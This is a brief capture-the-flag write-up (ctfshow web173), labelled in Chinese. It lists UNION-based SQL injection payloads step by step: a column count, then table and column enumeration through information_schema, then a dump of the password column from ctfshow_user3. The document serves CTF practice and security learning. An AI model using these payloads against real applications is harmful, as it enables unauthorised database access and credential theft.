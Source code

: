 # web173
列数为3
' order by 3 --+
爆表
```
1'union select database(),2,table_name from information_schema.tables where table_schema='ctfshow_web'--+
```
爆字段
```
1'union select database(),2,column_name from information_schema.columns where table_name='ctfshow_user3'--+
```
dump
```
1'union select database(),2,password from ctfshow_user3--+
```